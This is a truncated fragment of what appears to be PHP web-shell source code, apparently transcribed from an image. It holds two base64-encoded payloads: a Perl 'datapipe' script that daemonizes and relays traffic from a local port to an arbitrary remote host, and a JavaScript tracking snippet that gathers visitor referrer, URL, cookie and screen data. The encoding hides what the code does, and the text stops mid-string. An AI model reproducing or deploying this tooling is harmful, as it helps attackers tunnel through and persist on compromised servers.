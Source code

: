 $datapipe_pl="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgSU86OlNvY2tldDsNCnVzZSBQT1NJWDsNCiRsb2NhbHBvcnQgPSAkQVJHVlswXTsNCiRob3N0I
CAgICAgPSAkQVJHVlsxXTsNCiRwb3J0ICAgICAgPSAkQVJHVlsyXTsNCiRkYWVtb249MTsNCiRESVIgPSB1bmRlZjsNCiR8ID0gMTsNCmlmICgkZGFl
bW9uKXsgJHBpZCA9IGZvcms7IGV4aXQgaWYgJHBpZDsgZGllICIkISIgdW5sZXNzIGRlZmluZWQoJHBpZCk7IFBPU0lYOjpzZXRzaWQoKSBvciBkaWU
gIiQhIjsgfQ0KJW8gPSAoJ3BvcnQnID0+ICRsb2NhbHBvcnQsJ3RvcG9ydCcgPT4gJHBvcnQsJ3RvaG9zdCcgPT4gJGhvc3QpOw0KJGFoID0gSU86Ol
NvY2tldDo6SU5FVC0+bmV3KCdMb2NhbFBvcnQnID0+ICRsb2NhbHBvcnQsJ1JldXNlJyA9PiAxLCdMaXN0ZW4nID0+IDEwKSB8fCBkaWUgIiQhIjsNC
iRTSUd7J0NITEQnfSA9ICdJR05PUkUnOw0KJG51bSA9IDA7DQp3aGlsZSAoMSkgeyANCiRjaCA9ICRhaC0+YWNjZXB0KCk7IGlmICghJGNoKSB7IHBy
aW50IFNUREVSUiAiJCFcbiI7IG5leHQ7IH0NCisrJG51bTsNCiRwaWQgPSBmb3JrKCk7DQppZiAoIWRlZmluZWQoJHBpZCkpIHsgcHJpbnQgU1RERVJ
SICIkIVxuIjsgfSANCmVsc2lmICgkcGlkID09IDApIHsgJGFoLT5jbG9zZSgpOyBSdW4oXCVvLCAkY2gsICRudW0pOyB9IA0KZWxzZSB7ICRjaC0+Y2
xvc2UoKTsgfQ0KfQ0Kc3ViIFJ1biB7DQpteSgkbywgJGNoLCAkbnVtKSA9IEBfOw0KbXkgJHRoID0gSU86OlNvY2tldDo6SU5FVC0+bmV3KCdQZWVyQ
WRkcicgPT4gJG8tPnsndG9ob3N0J30sJ1BlZXJQb3J0JyA9PiAkby0+eyd0b3BvcnQnfSk7DQppZiAoISR0aCkgeyBleGl0IDA7IH0NCm15ICRmaDsN
CmlmICgkby0+eydkaXInfSkgeyAkZmggPSBTeW1ib2w6OmdlbnN5bSgpOyBvcGVuKCRmaCwgIj4kby0+eydkaXInfS90dW5uZWwkbnVtLmxvZyIpIG9
yIGRpZSAiJCEiOyB9DQokY2gtPmF1dG9mbHVzaCgpOw0KJHRoLT5hdXRvZmx1c2goKTsNCndoaWxlICgkY2ggfHwgJHRoKSB7DQpteSAkcmluID0gIi
I7DQp2ZWMoJHJpbiwgZmlsZW5vKCRjaCksIDEpID0gMSBpZiAkY2g7DQp2ZWMoJHJpbiwgZmlsZW5vKCR0aCksIDEpID0gMSBpZiAkdGg7DQpteSgkc
m91dCwgJGVvdXQpOw0Kc2VsZWN0KCRyb3V0ID0gJHJpbiwgdW5kZWYsICRlb3V0ID0gJHJpbiwgMTIwKTsNCmlmICghJHJvdXQgICYmICAhJGVvdXQp
IHt9DQpteSAkY2J1ZmZlciA9ICIiOw0KbXkgJHRidWZmZXIgPSAiIjsNCmlmICgkY2ggJiYgKHZlYygkZW91dCwgZmlsZW5vKCRjaCksIDEpIHx8IHZ
lYygkcm91dCwgZmlsZW5vKCRjaCksIDEpKSkgew0KbXkgJHJlc3VsdCA9IHN5c3JlYWQoJGNoLCAkdGJ1ZmZlciwgMTAyNCk7DQppZiAoIWRlZmluZW
QoJHJlc3VsdCkpIHsNCnByaW50IFNUREVSUiAiJCFcbiI7DQpleGl0IDA7DQp9DQppZiAoJHJlc3VsdCA9PSAwKSB7IGV4aXQgMDsgfQ0KfQ0KaWYgK
CR0aCAgJiYgICh2ZWMoJGVvdXQsIGZpbGVubygkdGgpLCAxKSAgfHwgdmVjKCRyb3V0LCBmaWxlbm8oJHRoKSwgMSkpKSB7DQpteSAkcmVzdWx0ID0g
c3lzcmVhZCgkdGgsICRjYnVmZmVyLCAxMDI0KTsNCmlmICghZGVmaW5lZCgkcmVzdWx0KSkgeyBwcmludCBTVERFUlIgIiQhXG4iOyBleGl0IDA7IH0
NCmlmICgkcmVzdWx0ID09IDApIHtleGl0IDA7fQ0KfQ0KaWYgKCRmaCAgJiYgICR0YnVmZmVyKSB7KHByaW50ICRmaCAkdGJ1ZmZlcik7fQ0Kd2hpbG
UgKG15ICRsZW4gPSBsZW5ndGgoJHRidWZmZXIpKSB7DQpteSAkcmVzID0gc3lzd3JpdGUoJHRoLCAkdGJ1ZmZlciwgJGxlbik7DQppZiAoJHJlcyA+I
DApIHskdGJ1ZmZlciA9IHN1YnN0cigkdGJ1ZmZlciwgJHJlcyk7fSANCmVsc2Uge3ByaW50IFNUREVSUiAiJCFcbiI7fQ0KfQ0Kd2hpbGUgKG15ICRs
ZW4gPSBsZW5ndGgoJGNidWZmZXIpKSB7DQpteSAkcmVzID0gc3lzd3JpdGUoJGNoLCAkY2J1ZmZlciwgJGxlbik7DQppZiAoJHJlcyA+IDApIHskY2J
1ZmZlciA9IHN1YnN0cigkY2J1ZmZlciwgJHJlcyk7fSANCmVsc2Uge3ByaW50IFNUREVSUiAiJCFcbiI7fQ0KfX19DQo=";
$c1 = "PHNjcmlwdCBsYW5ndWFnZT0iamF2YXNjcmlwdCI+aG90bG9nX2pzPSIxLjAiO2hvdGxvZ19yPSIiK01hdGgucmFuZG9tKCkrIiZzPTgxNjA2
JmltPTEmcj0iK2VzY2FwZShkb2N1bWVudC5yZWZlcnJlcikrIiZwZz0iK2VzY2FwZSh3aW5kb3cubG9jYXRpb24uaHJlZik7ZG9jdW1lbnQuY29va2l
lPSJob3Rsb2c9MTsgcGF0aD0vIjsgaG90bG9nX3IrPSImYz0iKyhkb2N1bWVudC5jb29raWU/IlkiOiJOIik7PC9zY3JpcHQ+PHNjcmlwdCBsYW5ndW
FnZT0iamF2YXNjcmlwdDEuMSI+aG90bG9nX2pzPSIxLjEiO2hvdGxvZ19yKz0iJmo9IisobmF2aWdhdG9yLmphdmFFbmFibGVkKCk/IlkiOiJOIik8L
3NjcmlwdD48c2NyaXB0IGxhbmd1YWdlPSJqYXZhc2NyaXB0MS4yIj5ob3Rsb2dfanM9IjEuMiI7aG90bG9nX3IrPSImd2g9IitzY3JlZW4ud2lkdGgr
J3gnK3NjcmVlbi5oZWlnaHQrIiZweD0iKygoKG5hdmlnYXRvci5hcHBOYW1lLnN1YnN0cmluZygwLDMpPT0iTWljIikpP3NjcmVlbi5jb2xvckRlcHR
oOnNjcmVlbi5waXhlbERlcHRoKTwvc2NyaXB0PjxzY3JpcHQgbGFuZ3VhZ2U9ImphdmFzY3JpcHQxLjMiPmhvdGxvZ19qcz0iMS4zIjwvc2NyaXB0Pj
xzY3JpcHQgbGFuZ3VhZ2U9ImphdmFzY3JpcHQiPmhvdGxvZ19yKz0iJmpzPSIraG90bG9nX2pzO2RvY3VtZW50LndyaXRlKCI8YSBocmVmPSdodHRwO